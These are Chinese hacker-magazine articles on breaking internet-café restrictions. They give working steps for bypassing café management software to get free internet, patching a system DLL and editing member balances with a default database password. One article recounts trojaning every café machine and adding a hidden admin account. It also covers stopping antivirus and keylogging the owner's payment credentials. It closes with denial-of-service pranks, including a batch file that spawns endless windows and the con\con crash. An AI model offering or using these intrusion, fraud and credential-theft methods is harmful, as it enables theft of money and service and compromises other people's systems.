> DWORD值“securitytab”是隐藏“安全”选项；而“secchangessettings”是使“默认级别（D）”和“自定义级别（C）”为灰色。

变为不可用。当然，这里还可以设置很多，不在本文讨论范围内，就不多说了！

其实，我发现修改IE属性里的“安全”设置与注册表里的HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3\1803有关。如果这个键值为0，是表示允许下载，为3表示禁止下载。修改完后要关闭所有浏览器，再打开才有效。

但有些很“牛”的网吧把心爱的注册表也给禁止了，真是@@#$%%#$*#……

网管把它禁止了，我们就偏想方设法地打开它。说到解除注册表的禁止，有很多方法，网上也有，这里笔者就选些自认为适合大家的方法来说吧！

通过新建TXT文档写入一些代码存为.reg文件的方法我认为不好，既然网吧连注册表都禁止了，鼠标右键和“开始”菜单也应该被禁止了。这里我还是说一下，毕竟有些朋友还不知道：

```
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\
Policies\System]
"DisableRegistryTools"=dword:
00000000(这里按一个回车)
```

将此文档另存为unlock.reg，双击将其导入注册表即可。要注意的是，第一排的字母必须大写且顶格，这是硬行规定。若是Win2K或XP，则“REGEDIT4”应改为“Windows Registry Editor Version 5.00”。

其实，我们可以在DOS下输入如下命令：

```
regedit /d
HKEY_CURRENT_USER\Software\
Microsoft\Windows\CurrentVersion\Policies
\SystemDisableRegistryTools
```

要呵呵！简单吧！要注意一下：如果你输入以上命令并回车后，提示“系统找不到指定的路径”的话，就要在注册表处缺少某项的地方新建“项”，即在右边的空白处点击鼠标右键，选择“新建”→“项”，然后将默认项名“新项 #1”改为所缺项名。

当然，如果你是Windows 2000/XP/2003，就更好办了，可以在“运行”里输入“Gpedit.msc”后回车，打开“组策略”。然后依次展开“用户配置→管理模板→系统”，双击右侧窗口中的“阻止访问注册表编辑工具”，在弹出的窗口中选择“已禁用”，“确定”后再退出“组策略”，即可为注册表解锁。

另外，我还得说一点，有些网吧在你右击IE图标准备打开IE属性窗口时，也许会什么反应也没有，这是由于网管把IE属性的关联给改了。要恢复的话，就在C:\Windows\System下找到名为inetcpl.cpl的文件，当然，这时它已经不是这个名字了，我们就是要恢复这个名字。

一般的网管会改一个相近的名字，如“inetcpl.cpp”之类，或者我们就一个个凭感觉改，然后再双击它，直至出现IE的属性窗口为止。聪明的朋友一定会想到如果网管屏蔽了鼠标右键，可通过上述方法同样打开IE属性。

（2）OK！第一种情况的解决就暂时说到这里吧！下面我们看看第二种情况。

下载之后文件怎么可能不在呢？我分析一下，东西一定在硬盘中，只是被隐藏了，先教各位一个简单的方法，在下载过程中会有图5所示的窗口。


首先，在下载软件的过程中记得把图5中“下载完毕后关闭该对话框”前的“√”去掉。下载完毕后，点击图中的“打开（D）”或者“打开文件夹（F）”，前者是直接运行该文件，后者是进入文件所在位置。当然，一般情况下是直接运行，因为就算你进入了指定位置，也看不到它。

还有一种方法，就是打开“我的电脑”，然后依次选择“查看”（或“工具”）→“文件夹选项”，选择“查看”选项卡，把“显示所有文件和文件夹”选上，关闭退出，是不是你要的文件出来了？

（3）对于第三种情况和第四种情况，可能要麻烦点，当初我对两个问题也有点摸不着头脑，后来经过深思后才明白了它的秘密所在。OK！不卖关子了，请看！

其实究其原因，是由于网管修改了系统里的一个DLL文件，它位于C:\Windows\System目录下，名字是“shdoclc.dll”。DLL文件即“应用程序扩展”。当我们打开一个可执行文件后，点击某个菜单会跳出一个独立对话框，这时就是这个可执行文件在调用自身的一个DLL文件，简单来说，就是相当于制作网页的“超级链接”。当我们下载东西时，系统也就是调用C:\Windows\System\shdoclc.dll（XP中是位于C:\Windows\System32\shdoclc.dll），从而弹出一个下载对话框，而网管就是通过修改这个对话框的“确定”或“打开”、“保存”按钮来达到禁止我们下载的目的。因此，我们只要改回来就可以了。

用Resource Hacker打开这个DLL文件（这里我们是用Resource Hacker编辑它，可别像其他文件一样直接双击，想当初我也这么干，结果乱修改后把系统给弄崩溃了），你会看到图6所示的页面。


双击左边的“Dialog”，再在其子目录下双击“4416”，然后单击“4416”下的“2052”，将会出现图7所示的页面。

嘿嘿！熟悉吧？这就是我们下载时弹出的对话框。下面我将作为一个网管的角度来改写，清楚网管是怎样做的之后，当然也就知道怎样破解了！

用鼠标右键单击“确定”按钮，选择“编辑控件”（图8），此会弹出图9所示的对话框。

现在我们来实现“确定”按钮的功能为“取消”。我们编辑“取消”按钮这个控件（图10），看见它的ID没有？是“2”。


OK，现在，我们把确定按钮的ID也改为“2”，就可实现“取消”的功能了（图11）。


点击“确定”后，这个文件就修改好了。此时我们把这个文件保存起来，选择Resource Racker菜单栏的“文件→保存为”，然后选择好路径就可以了。接下来再替换掉正常的shdoclc.dll文件！

> 小知识：由于shdoclc.dll文件一直在系统内运行，所以在Windows下无法覆盖它。要进入DOS状态来覆盖。

现在我们把“打开”按钮和“保存”按钮弄成灰色的（即不可用）。还是先载入shdoclc.dll文件，如图12。

接下来我们按照上面的方法编辑“打开”按钮，具体设置如图13。然后在“风格”栏下选择“WS_DISABLED”，点击“确定”，现在就可看到变灰后的“打开”按钮了，如图14。


我们用同样的方法修改“保存”按钮，将其也变为灰色。
OK！大家现在知道产生第三、第四种情况的原因了吧，你只需把其改回来即可。但这种限制是可用“Windows 按钮突破专家”来破解的。

（4）最后带给大家一个终极武器（我为了这个东东，花了N多时间……）。需要条件是：允许浏览WEB页，而且可以保存网页！

先说下原理，很简单。我们找个下载软件，比如：FlashGet、NetAnts等。这里笔者推荐NetAnts，即“网络蚂蚁”，因为它体积比FlashGet更小，而我们一般在网上申请的空间都限制了上传文件的大小，所以FlashGet不太合适。首先打开“我的电脑”，然后然后选择“查看”（或“工具”）→“文件夹选项”，在弹出窗口中选择“查看”选项卡，把“隐藏已知文件类型的扩展名”前面的“√”去掉，然后给NetAnts改名，关键是它的扩展名，我们改成“htm”或“html”。也许有人会问，“咋的啦，怎么成网页啦？”不错！我们要把它以WEB页的方式上传至网上的空间，没有任何技术支持的空间都行。这样，一个WEB页就做好了（打开看的话会是一团乱码），我们用上传工具（如LeapFTP、CuteFTP等）将其上传。关键的地方是：在网吧我们怎样把一个网页改成EXE可执行程序文件。

打开IE，输入我们上传的网页地址（即先前那个修改NetAnts扩展名生成的WEB页），当然我们只会看见一些乱码，不过这没什么。在IE浏览器上点击“文件”→“另存为”，马上会弹出一个对话框，叫你选择存放文件的路径。


大家注意看图15，看见划线的部分没有？一定要记住：在保存此网页时，在文件名的最后要添加“.exe”，然后在保存类型处选择“网页，仅HTML（*.HTM;*.HTML）”。

OK！做完这些后，点击“保存（S）”，在你指定位置上看，是不是多了个可爱的程序，马上安装，之后就可以使用了。

我把做好的这个网页上传到了自己的空间去，大家可以去http://magicdog.freewebpage.org/直接下载。不过由于是免费空间，所以单个上传的文件最大为900KB，而用NetAnts做好的WEB页有882KB 我在上传时提醒我不能上传，提示“文件超过了900KB”！郁闷！我用XP自带的压缩程序压缩了一下，所以即便机器上没有WinRAR也没关系。大家可在保存时在“文件名（N）”处把“.exe”换成“.zip”，然后再解压缩。

通过上面的例子，聪明的你一定可以想到，利用这个方法可直接下载你常需要用的东西。如果你是木马种植爱好者，可用同样的方法来下载它，直接把木马改成网页（但要注意木马的体积）。

值得一提的是，现在网上有许多网站有所谓的“在线破解*****”之类的功能，其实它就是利用的ActiveX控件来进行对系统的更改，但稍微聪明的网管只要在IE属性里禁止ActiveX，那一切就真的GAME OVER了！

另外，如过你遇到不能下载的情况是属于“打开”和“保存”按钮为灰色的情况，可用我所述的上述方法把“Windows按钮突破专家”作成网页上传至空间，你也可以到http://magicdog.freewebpage.org/下载我已经做好的网页，扩展名是“exe”，要记得在前面打上英文的小圆点“.”，否则不会成功的！

（本文提到的以下工具光盘有收录：Resource Hacker、NetAnts、Windows按钮突破专家）

### 实战网吧突破网络妙管家

网络妙管家相信大家都见过吧！就是以前的网吧管理专家。凭借其强大的功能深受网吧老板的喜爱，同时也遭到菜鸟们的痛恨。如何突破网络妙管家的限制来免费上网呢？下面笔者就将与网络妙管家斗争到底！

首先介绍一下我所在网吧的情况：屏蔽了开机热键（F4、F5、F8）；禁止进入硬盘；锁定注册表和禁止下载，甚至连ActiveX也禁用了，这样，就不能运行一些在线系统了。

此时，我们的思路基本上有两个：不让网络妙管家启动，或者是它启动后绕过身份验证。这里的网吧均采用“Win98+网络妙管家 + 实名卡”。

### 第一种思路：不让网络妙管家随系统启动

废话少说，我们从开机切入。启动电脑后，按住键盘上的Ctrl或Alt键就可绕过被屏蔽的自动热键F4、F5、F8，从而直接来到启动菜单，我们选择第5个，即Command Prompt Only。

在命令提示符下输入（以默认安装为例）：

```
C:\>cd Octopus
C:\>ren client.exe client.ex_
（ren的命令格式：ren 旧文件名 新文件名）
```

如果想为文件夹改名，可使用move命令，命令格式为：

```
move 旧文件夹名 新文件夹名
```

如果文件夹名采用的是中文，在DOS下会显示为乱码，我们可这样对付，即在命令提示符下输入以下命令：

```
C:\>dir>1.txt
C:\>edit 1.txt
```

在弹出的Edit窗口中，根据大小或时间特征找到安装文件夹的那一行，看到了吗？如图1。乱码就是安装文件夹“万象”，其上的“1.txt”就是我们用上面的c:\>dir>1.txt命令生成的。


图 1

现在将其他内容都删掉，只保留乱码部分，并在前面加上cd命令，如图2。或使用move命令将文件夹改名，然后按Alt+F打开菜单，选择“Save as...”项，将文件另存为1.bat。如图2。


图 2


图 3

运行后我们就可进入中文文件夹（图3），或将文件夹改名，这时我们键入Win命令就可启动Win98（注意：不要关机重启，如果网吧装有还原精灵，我们的工作就白做了），系统会提示找不到路径而拒绝启动网络妙管家。

### 第二种思路：删除妙管家启动项并突破锁定

在DOS下操作似乎稍显麻烦，我们来看第二种方法，利用网络妙管家程序自身的漏洞来突破它。程序自身有Sleep漏洞，网上也有人提到过，但并没有给出具体的利用方法。下面我们来详细谈一下利用过程。

网络妙管家启动后按下键盘上的Sleep键，此时屏幕会一闪而灭，系统进入休眠状态。

我们来数3个数：1，2，3，好了，按住键盘上的任一键来唤醒系统，这时会发现漆黑的屏幕上有个醒目的错误对话框，大意是client.exe发生错误，会被Windows关闭。机会来了，按下“确定”，此时屏幕会变成浅蓝色，但桌面上什么也没有，按键盘也没有反应，鼠标除了能动之外，左右键均不好使，系统似乎进入假死状态。别急，其实现在键盘上至少还有两个键可以用，即Alt+F4，按下后看到弹出的关机对话框了吗（图4）？上面可是有“帮助”按钮哦！


图 4

另外需注意一点的是，我们只有一次机会按Alt+F4。如果点击“取消”或将对话框关闭，就会发现连Alt+F4也不好使了，只好重新启动。

等到Windows帮助出来的时候（图5），我们离成功也仅有一步之遥了。


图 5

点击“Web帮助”或“选项”菜单下的“Web帮助”，可看到右下角出现的“联机支持”（图6）。点击一下，IE就会跳出来。

至此，我们已经成功突破网络妙管家的身份验证，可以免费上网了。


图 6

我再罗嗦几句。其实，此时桌面还是什么都没有（包括任务栏），也就是说，不能将打开的窗口最小化，否则连Alt+Tab也帮不了你。如果不小心把窗口都关闭了，可以用鼠标双击空荡荡的桌面，运气好的话会跳出Windows的“开始”菜单，看看有没有你可以利用的程序，或者按Alt+F4键，呵呵！这时又好用了。

关于网吧破解，笔者认为关键在于下载。解除下载限制后就可下载一些“有用”的小软件，建议采用Shell.Application或ADODB.Stream漏洞来制作在线下载，也可参考本期的另一篇文章“网吧下载权限随你拿”。

至于后续工作，用Winhex来查管理员密码，X已经讲过多次，相信各位都很熟练，这里就不再罗说了。

### 美萍电脑安全卫士各版本的快速破解

现在，网吧里都安装了网络管理软件，用来监控网吧以及计费等工作。毋庸置疑，这些管理软件大大提高了网吧管理的便捷性，减轻了网络管理员的工作量。

纵观国内的网络监控软件，或多或少地都存在着漏洞和隐患。网吧管理软件中最常用的是美萍电脑安全卫士（以下简称“美萍”），其工作原理是用虚拟的桌面及“开始”菜单取代原Windows中的桌面及“开始”菜单。通过设置禁止Windows系统的各种基本操作，迫使用户只能在软件的限制下使用电脑，并且协助计费、监控等工作。

目前，网上有许多破解美萍的技术文章，但这些破解技术大多是在计费状态下进入美萍后进行的，这里不再一一阐述。本文揭示的是在系统锁定状态下如何绕开美萍，从而尝试进入可使用状态。以前我在网上也看到过类似的方法，无非是通过一些破解软件将客户端的密码在计费状态下破解出来，然后在锁定状态下以管理员的身份进入，但这样做会被服务端检测到，或被细心的网管发现，况且随着美萍版本的升级，一些破解软件的功能也失效了。

下面笔者就来介绍一下如何在锁定状态下进入系统，借此提醒美萍软件公司和广大网管注意进行软件的升级和防护，以免不法分子带来不必要的损失！

1. 首先，在电脑锁定的状态下，我们打开“开始”菜单，然后选择“软件注册”


## netcafe

(图1)。我们会发现鼠标被限制在“软件注册”这个窗口之内，点击它一下，使之成为当前活动窗口，然后按一下键盘上的Windows窗口图标，这时右下角任务栏中的图标也会解除隐藏。


2. 然后我们可以双击打开任务栏中的音频小喇叭，从而出现“音量控制”的窗口(图2)。


3. 接着选择“帮助”→“帮助主题”，在打开的Windows帮助中，选择“Web帮助”，在右边的方框内就会出现“Windows 2000主页”(在Win98下则出现“Windows98联机支持”)，如图3。


4. 然后我们点击“Windows 2000主页”，这样就可打开浏览器了，而且在服务端显示仍是锁定状态。这样，网吧老板就无法发现了，但我们不能把“软件注册”窗口关掉，否则机器就会重新锁定。如果右下角没有音频设备，我们也可以双击“本地连接”图标，然后在“本地连接”状态的窗口中，点击“属性”，在弹出的窗口中点击“配置”，然后在配置选项的“常规”选项卡中点击“疑难解答”，同样也可出现Windows的帮助窗口(图4)。以下的操作同上。


5. 下面说说如何进入电脑的各个磁盘。上面我们虽然打开了浏览器，但是由于美萍进行了很多的升级，所以以前的一些进入电脑磁盘的手段很多已经失效(如在地 址栏中敲入C：\来访问C盘的方法就已被新版本的美萍禁止)。其实，不通过浏览器我们仍可非常简单地进入磁盘。例如，我们通过图4中的“疑难解答”打开Windows 2000的帮助窗口，然后在“目录”选项内双击“文件和文件夹”，再点击“打开文件或文件夹”，在右侧的方框内就会出现“我的电脑”，点击就可进入电脑的各个磁盘(图5)。其实，Windows 2000帮助窗口里的很多子目录点击后，都会在右侧方框内出现“我的电脑”或者“资源管理器”等。在“硬件”目录内点击“打印机”还会出现“打印机”窗口，同样也可进入电脑的各个磁盘。真可谓“漏洞百出”！


现在，我们就可自由自在地畅游因特网了。

6. 由于服务端每次开启一个机器时，在我们所用的客户端电脑上就会出现一行来自管理员的提示：“你的电脑可以使用了”，这样电脑就解除了锁定。然而我们是通过上述方法进入系统的，电脑仍旧处于锁定的状态下，所以，当管理员为某个网民开启我们正在“自由”使用的机器时，也会收到这样的提示。这样，就好像有某种预警提示：有一个“合法”的网民来上机了。出现这种情况我们就主动下机吧！别影响了网民的正常上网和网吧的生意啊！

7. 虽然我们进入了电脑的各个磁盘，但现在有个这样的问题：在机房的安装“美萍电脑安全卫士”时，在服务端(也就是计费、负责客户端开机的机器)就安装了“美萍网管大师”。这位“大师”有个特别的功能：客户端电脑启动后如果没有进入计费使用状态，那么服务端就会将客户端限时自动关机或者重新启动，一般是10到15分钟(这个本来是强制学生按时下机的，现在却成了我们的拦路虎！而且这还是一个可选选项，如果网管比较懒，没有选上，那我们就不必劳民伤财了，直接用上面的上机方法即可！)。但如果确实设置为“限时自动关机”，那么以前的努力就会功亏一篑，因为重新启动后系统又会进入锁定状态。

这种情况下，我们只能拿客户端开刀，把美萍客户端在“网管大师”限制的时间之内卸掉。这样，机器就不会执行来自服务端的指令，从而完全摆脱控制。下面我们来看看具体操作！

8. 以前网上有很多美萍安全卫士密码的破解软件，如果你所在的网吧美萍版本较低，那就试试破解软件，能够直接破解密码当然最好了。但现在美萍进行了升级，而破解软件并没有随之升级。现在仅有的比较有效的工具就是“美萍安全卫士密码探测器”，如图6。


9. 在我们刚才打开的浏览器中输入这个地址：http://www.chinesehack.org/down/show.asp?id=2185，下载“美萍安全卫士密码探测器”。安装完毕后会出现两个功能模块“美萍密码查看器”和“美萍安全卫士解锁器”。但这个东东在遭遇“美萍电脑安全卫士11.1”的最新版本时，“美萍密码查看器”功能就失效了，在其他较低的版本中使用时仍然有效(只是在拖动“密码查看器”的“狂人软件”图标破解时，密码会在“显示密码栏”非常快地闪动，仔细看看，能够破解)。

10. 安装完毕后，就会自动运行美萍安全卫士的“解锁器”，如图7。


(本文内容摘自《黑客X档案》2003 2004年合订本下册)

## netcafe


11. 然后，我们就把文章开头第一步中的“软件注册”窗口退出。这时，我们会发现所有的窗口都会隐藏(实质上只是被美萍界面屏蔽了，程序仍然在界面后台运行)，系统又被锁定。在保持“美萍安全卫士系统设置解锁器”运行的同时，我们点击“开始”菜单里的“系统设置”，随便输入字符或直接点击“确定”，就会进入美萍设置的窗口(图8)。

12. 然后点击“管理”标签项，再点击下面的“密码”选项卡。这时右下角有“卸载”功能，只要轻轻一点，整个客户端就会被卸载(由于美萍在卸载客户端时，服务端不会提示：“某某机器卸载了美萍电脑安全卫士”，所以，你不必担心网管会气冲冲地过来查看)。这样你就可以彻底摆脱服务端的控制，海阔天空了！

现在的网吧大都安装有还原卡，重新启动后系统就会被还原。所以，我们也不会对系统造成任何破坏。


之后会出现和图3一样的窗口。双击左边的“MenTab\Member”表，这时会在右边出现网吧所有会员的资料。
在这会员的海洋中寻找自己的卡是相当困难的，所以我们就要用到搜索功能。在“搜索”按钮左边的第一个文本框中输入自己的会员卡号，我的是4282008，然后选择字段名。因为我们输入的是卡号，所以字段名选择 MemberID。点击“搜索”按钮后，自己的会员卡数据就会出现。我们只要双击“RemainMoney”字段下的数字(即卡上剩余的金额)就能修改。把金额改成自己满意的数字后，点击工具栏上的“√”即可保存。至此，会员卡充钱结束。

谨以此文献给我的大哥陈雨和嫂子高莹，祝他们永远幸福，也祝大哥陈雨能早日精通黑客技术。

长在网吧行，必有收获时。好不容易考上了大学，这次我给大家介绍我是怎样在学校旁的网吧里行动的。
先给大家介绍一下这个网吧的配置：客户机有装Win2000系统的，也有装Win98的。这次入侵我是在Win2000机器上完成的。PUBWIN主机系统未知(下面有得到系统版本的方法)，IP是192.168.0.252。


# 攻克网吧收银台

wzhpro

下面我们与对方建立IPC$连接(关于如何使Win98系统与PUBWIN服务器建立连接，我就不多说了，大家还不懂的话，可以参考我在2004年第9期上的那篇文章。)我们打开CMD后输入：
`net use \192.168.0.252\ipc$ /user:administrator`
`net use o: \192.168.0.252\c$`
下面我介绍一下“数据库管理助手”在网吧的使用方法：首先运行压缩包中的SQL.EXE，接着就会打开程序的主界面。点击菜单栏上的“连接”按钮，然后选择“Access文件”。这时会弹出“Access数据库管理”窗口，在路径中选择数据库的位置，当然前提是你已经把对方PUBWIN的安装盘作了映射，再在密码栏中填入PUBWIN数据库的默认密码：`ajsgammbg3721nd`。
最后点击“连接”按钮，如图2。


我在2004年第9期的《X档案》上发表了“PUBWIN免费全攻略”一文的不妥之处，得到了很多黑迷朋友的支持。但有的网友反映他们那边的网吧没有安装Office 2000，所以没有办法修改数据库。
于是我在网上翻过千山万水找到了一款小巧的数据库修改器——数据库管理助手。数据库管理助手只有SQL.EXE 一个文件，用WinRAR压缩后只有424KB。经常出入网吧的朋友可以把它放在邮箱里，要用的时候下载起来十分方便。
好戏开场了！我先用getos.exe 确定主机的操作系统，命令格式是：getos IP地址(图1)，可以看出对方的系统是Win2000的。

```
C:\>getos 192.168.0.252

THCncscanner v0.1 -- service and version scanner
by Johnny Cyberpunk (cyberpunk@thehackerschoice.com)

[+] Connection Port 139.
[+] Sending session request...
[+] Sending session request...
[+] Successful...

Remote OS:
WINDOWS 2000 LAN Manager
Windows 5.0
```


网吧里常常装有还原卡，我开机时按住HOME键调出还原卡登陆界面后，得知他们装的是还原精灵。这下方便了，我从邮箱里下载还原精灵密码读取器并运行，发现该程序在Win2000下无法运行。于是我找了台Win98的机器运行，得到密码是password，如图4。
接下来就轮到装木马了。我下载了一个传奇木马，设置好后双击运行。重新启动时按住HOME键进入还原精灵设置界

blackX档案2003：2004年合订本(下卷)

## netcafe

面，把硬盘上的资料储存进还原卡。按这样的方法我把网吧里的所有机器都安装上了传奇木马。回家等着收信吧，哈哈！

在网吧里干这么多，我还是觉得不爽，于是决心把网吧里的服务器做成自己的肉鸡。我用SuperScan扫描主机，发现它打开了135、139、445、1025、3389等端口。

拿出我最喜欢的Remoxec，填上主机的IP和默认用户名：administrator，再在命令或程序中输入net user wzh$ 12345 / add，点击运行后出现成功的提示。再把用户加入管理员组，输入net localgroup administrators wzh$ /add。如图5、图6。


哈哈！老板改了管理员的密码也没有用了，我下次可以用自己创建的用户登陆主机，这时我已经可以通过终端进入主机的GUI界面了，但我怕网管什么时候把终端服务关了，还要给我的肉鸡装上风雪3.8。配置一下服务端，把进程名改为WINSVR，然后用SchedExec让主机运行我的木马(我觉得SchedExec更适合菜鸟使用，比在CMD下上传和用AT命令启动方便多了)。如图7、图8。


在兴奋了60秒之后，我无论如何也连不上服务端，心情一下由晴转阴，突然间我想到了……莫非是主机安装了杀毒软件？正巧这时我的同学也来这个网吧玩，在他刷卡前我把他叫住，说我去帮他刷，其实我只想看看主机屏幕的右下角有没有杀毒软件的图标。果然不出我所料，主机上安装了××杀毒软件。碰巧我家里也是用的这个杀毒软件，所以我对它还是比较熟悉的，能背出它的服务名。

于是我又一次打开Remoxec，运行net stop rsravmon和net stop rscenter。提示成功后，我再一次用SchedExec把配置好的风雪3.8服务端远程执行，60秒后连接成功。来看看老板在干什么：点击工具栏上的“抓屏”按钮，因为我不需远程控制，所以我把“屏幕控制”前的勾去掉了，然后点击“确定”。哈哈！老板的屏幕就在我的眼皮底下，如图9。


这里我就不详细介绍风雪3.8的使用了，不会用的朋友可参考一下以前的《X档案》(牧马记栏目)！

## 我也玩玩老板的电脑

看见这个话题后，菜鸟们可不要害怕啊！其实这一步非常简单，下面我一步步讲给大家听。首先你必须有个帮手，但你找的人要可靠啊！别让他出卖了你。你用风雪打开键盘记录后，让他去老板那里冲张5元的传奇卡。冲卡的时候老板肯定要打开冲卡的网站，并输入帐号密码登录，这样就会被木马记录下来。为什么要冲5元？节约用钱嘛！你拿到用来充卡的帐号还怕没有卡冲？

在他充卡时你最好打开屏幕监视，这样可以在老板输入完帐号密码后立即停止键盘记录，以减少记录中的垃圾信息，如图10。


这时我打开键盘记录文件，一下就找到了老板输入的密码，至于用户名，可以直接通过屏幕监视看见。拿到帐号密码后，就可以登录充值系统自己充值了，这可是免费的哦！

## 在网吧里做恶作剧

本人平时比较喜欢恶作剧，比如上电脑课时让老师的电脑死机等。这次我给大家说一下我是怎么在网吧里搞恶作剧的。

- 1. 关机篇(只能在双方都是Win2000时成功)
我先在邮箱里把shutdown.exe下载回来(我用的不是XP下的那个，XP里的那个也可以用)，双击运行，界面如图11所示。


在“Computer Name”中填上对方的计算机名或IP地址，如果你想让他重启，在“Reboot after shutdown”前打上勾。
点击“OK”后会弹出图12所示的对话框，对你的操作进行警告，如果点击“OK”，对方就会立即在你设置的时间内重启。


- 2. 远程控制篇(只能在双方都是Win2000时成功)
这里的方法和用风雪远程控制PUBWIN主机的方法相同，你可用风雪提供的好好玩玩对方(可不要过火了哦)。
3. 蓝屏篇(适用于Win98系统)
网上进行IGMP攻击的工具很多，只要在搜索引擎中输入“IGMP下载”就能找到很多。一般这类工具使用十分简单，我就

不截图详细讲了。我介绍一下Win98的共享漏洞，首先你要找到一台开放共享的Win98机器，在“开始”菜单的“运行”中输入\\计算机名或IP\共享名\con\con，回头看看那台机器蓝屏了没有。要注意的是，这两种方法只对没有打过补丁的Win98机器有效。

我的网吧行到这里就结束了。写本文的目的只是和大家讨论一下黑客技术，同时提醒网吧管理员时刻注意网吧的系统安全。如果你造成了严重后果，警察叔叔会找上门的，小心哦！

(本文提到的以下工具本期光盘中有收录：数据库管理助手、getos.exe、风雪3.8、SchedExec、shutdown.exe、还原精灵密码读取器、Remoxec)


# 关于旁门左道突破网络妙管家

还是先说“旁门左道突破网络妙管家”吧！文中提到的两种方法个人认为不错，不过经我在一家网吧测试，并没有成功，不知道是为什么？

网络妙管家在我们这里很受欢迎，它的功能正如它受欢迎的程度一样，很强大，而且目前好像还没有出过什么漏洞。以前有一阵子我都在研究网吧管理软件的漏洞(呵呵！大家可不要认为我想免费上网啊)，于是便发现了网络妙管家的一个漏洞。其实它也不能说是一个BUG，只能算是一个缺陷，可能是软件作者的失误之处吧！这里我就介绍一下这个缺陷！

首先打开机器，输入管理员给你的ID和密码，进入后去下载一个sqlxec，这里我用的是sunx的sqlxec，大家可在google中搜索，也可以直接去sunx的主页(http:\\\\www.sunx.org)下载。打开下载的sqlxec，现在我们需要将它弄成没有响应状态，如图1。


图 1

要弄成图1的样子也需要技术的哦！随便连接一个你已经拿到SA密码的SQL服务器，然后在命令窗口中输入可以使服务器挂掉或使你的SQLXEC停止响应的命令，这里我推荐一种挂掉服务器的方法——用ECHO写一个BAT文件，如下：

```
echo @echo off >die.bat
echo :begin >>die.bat
echo start cmd >>die.bat
echo goto begin >>die.bat
```

然后运行die.bat，就会出现图1的现象了。接下来我们可以下机了，如果你用的是会员卡，可以直接点击结帐下机，这时奇迹出现了——桌面闪动了几下后，出现图2的界面，说明未被锁定，我们还可以上网。

为什么会出现这个呢？我想可能是设计者的错误，吉胜网络

妙管家在结帐下机时会对开着的程序一一蔽屏，他可能在设计软件时没有想到要蔽屏停止响应的程序。所以当吉胜网络妙管家在蔽屏时遇到sqlxec停止响应，就毫无办法，于是就出现图2的界面了。


图 2

如果这时我们将停止响应的sqlxec进程杀掉，会怎样呢？带着这个问题我将破解继续下去。由于手头没有专业的杀进程工具，且Ctrl+Alt+Delete热键也被蔽屏了，只好用以前下载的20CN反弹式HTTP隧道远程控制软件PcShare中的功能来杀进程，如图3。

| 进程名 | PID | 线程数 | 优先级 | 执行文件 |
| --- | --- | --- | --- | --- |
| EXPLORER.EXE | 168 | 9 | 8 | %WINDIR%\EXPLORER.EXE |
| sqlxec | 192 | 1 | 8 | E:\SUNXSTD\SQLXEC.EXE |
| sqlxec | 492 | 2 | 8 | %WINDIR%\SQLXEC.EXE |
| sqlxec | 328 | 7 | 8 | %WINDIR%\SQLXEC.EXE |
| ru_m.exe | 408 | 2 | 8 | %WINDIR%\SYSTEM32\RU_M.EXE |
| winampa.exe | 420 | 1 | 8 | %WINDIR%\WINAMPA.EXE |
| internat.exe | 432 | 1 | 8 | %WINDIR%\SYSTEM32\INTERNAT.EXE |
| internat.exe | 436 | 3 | 8 | %WINDIR%\SYSTEM32\INTERNAT.EXE |
| systray.exe | 448 | 3 | 8 | %WINDIR%\SYSTEM32\SYSTRAY.EXE |
| Systray.exe | 456 | 4 | 8 | %WINDIR%\SYSTEM32\SYSTRAY.EXE |
| WINDOWS.EXE | 472 | 1 | 8 | %WINDIR%\WINDOWS.EXE |
| NOTEPAD.EXE | 512 | 1 | 8 | %WINDIR%\NOTEPAD.EXE |
| 016A000 | 532 | 2 | 8 | E:\TOOLS\20CN\TOOLS\NC.EXE |
| rundll32.exe | 556 | 6 | 8 | %WINDIR%\RUNDLL32.EXE |
| E:\TOOLS\20CN\TOOLS\PCSHARE.EXE | 664 | 4 | 8 | E:\TOOLS\20CN\TOOLS\PCSHARE.EXE |
| MSGSYS.EXE | 748 | 4 | 8 | %WINDIR%\SYSTEM32\MSGSYS.EXE |
| NAVAPW32.EXE | 788 | 3 | 8 | E:\PROGRA~1\NORTON~1\NAVAPW32.EXE |
| LOADQM.EXE | 872 | 4 | 8 | E:\WINDOWS\LOADQM.EXE |
| KERNEL32.DLL | 1024 | 3 | 9 |  |
|  |  |  |  | %WINDIR%\SYSTEM32\KERNEL32.DLL |

图 3

结果，刚终止进程，桌面立刻被锁定恢复到原来的登陆窗口，这个结果也就进一步证实了我前面的想法，设计者果然没有设计怎样处理停止响应的程序。所以，吉胜网络妙管家在这种情况下会手足无措。当我停止sqlxec的进程(也就是关掉sqlxec)时，吉胜网络妙管家就会继续蔽屏其它程序，然后退回到登陆窗口。

黑客X档案2003 2004年合订本(下卷)


## netcafe

这个漏洞就是这样简单，这里奉劝想在网络妙管家控制下免费上网的朋友一句：最好不要有这个想法，你的一举一动管理员都一清二楚。呵呵！不是吓大家，确实如此，只要碰上一个细心的网管，你就可以进派出所了（我和网管玩熟了，这些密码自然会知道一点）。

## 四、网吧下载权限随你夺

接着说“网吧下载权限随你夺”。文中提到的3种破解方法对安装了网管软件的网吧来说并不是很实用，网吧一般都装有管理软件，除非那个网管太……

首先第一种。作者说修改IE选项中的安全级别，网吧管理软件都屏蔽了这个安全选项（图4），这个作者也提到了，不过开始中的“运行”和“注册表”也会被屏蔽（图5），所以修改注册表是行不通的，而且新建TXT文件也不行，有些管理软件已经屏蔽了“确定”按钮（图6），根本不能修改文件名。


至于后面的方法，就不用我再说了。

这里我并不全盘否定，也许实在有那样的网吧，只是我没碰见过而已。同样，我将自己破解的和网上那些还能使用的方法一起写出来，供大家参考。

### 1. 借助QQ

这个方法很老了，但我还是在很多网吧下载成功过（图7）。使用这种方法所需要的条件就是QQ号，还有就是要有是个好朋友，在你需要破解下载时，可以请QQ上的朋友发一个FlashGet之类的下载工具过来。同样，利用新版QQ中的“文件共享”也可以破解下载限制，相信这个难不倒大家吧！当然，有时网管会将QQ文件传输所需要的控件删除，此时这个方法也就不行了。

### 2. 借助网站www.j3j4.com

这个网站的在线注册表修复很实用，只需轻轻的点击几下，就可解决下载问题。用IE打开www.j3j4.com，将网页拉下来，找到修复下载限制的地方，点击“修复”就会出现图8的窗口。要注意的是，如果不行就多点几次，还有一点需要注意，有时在成功修复后并不能下载，这时需要重新开一个IE，然后再下载。当然它和上面第一种方法一样都有自己的缺陷，如果网管也做了限制，就不能用了，这个网站里还有其他好玩的东东，大家自己去看看吧！


#### 3. 网页木马

